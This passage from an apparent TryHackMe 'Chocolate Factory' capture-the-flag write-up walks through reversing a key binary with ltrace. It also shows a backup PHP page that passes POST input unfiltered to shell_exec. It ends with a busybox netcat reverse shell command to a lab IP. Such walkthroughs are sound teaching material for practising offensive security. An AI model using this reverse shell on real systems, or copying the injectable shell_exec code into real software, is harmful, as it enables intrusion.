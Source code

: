 ![command execution page](/assets/img/tryhackme/ChocolateFactory/thm_chocolatefactory_1.jpg){: width="293" height="96" .w-75 .normal}

First enumerate the web server directory by simply running ls -al
```text
home.jpg home.php image.png index.html index.php.bak key_rev_key validate.php
```
`key_rev_key` sounds interesting, so I downloaded it and analyzed what it is:
```bash
$ file key_rev_key
key_rev_key: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8273c8c59735121c0a12747aee7ecac1aabaf1f0, not stripped
```
Intersting, let's turn it into an executbale and run it:
```bash
$ chmod +x key_rev_key
$ ./key_rev_key
Enter your name: charlie
Bad name!
```
I tried to get some insights with `ltrace` and had success:
```bash
$ ltrace ./key_rev_key
printf("Enter your name: ")
__isoc99_scanf(0x563d5ea0090a, 0x7ffcf2e75a60, 0, 0Enter your name: test
)
strcmp("test", "[removed]")
puts("Bad name!"Bad name!
)
+++ exited (status 0) +++
$ ./key_rev_key
Enter your name: [removed]

 congratulations you have found the key:   b'[removed]'
 Keep its safe
```
Write the key down for later usage

## Reverse Shell
Before I tried to get a reverse shell I downloaded the index.php.bak file:
```html
$ cat index.php.bak
<html>
<body>
<form method="POST">
    <input id="comm" type="text" name="command" placeholder="Command">
    <button>Execute</button>
</form>
<?php
    if(isset($_POST['command']))
    {
        $cmd = $_POST['command'];
        echo shell_exec($cmd);
    }
?>
```
It seems to has no input filtering, so it is time to get a reverse shell. For that I used `busybox`:
```bash
busybox nc 10.21.63.26 9001 -e sh
```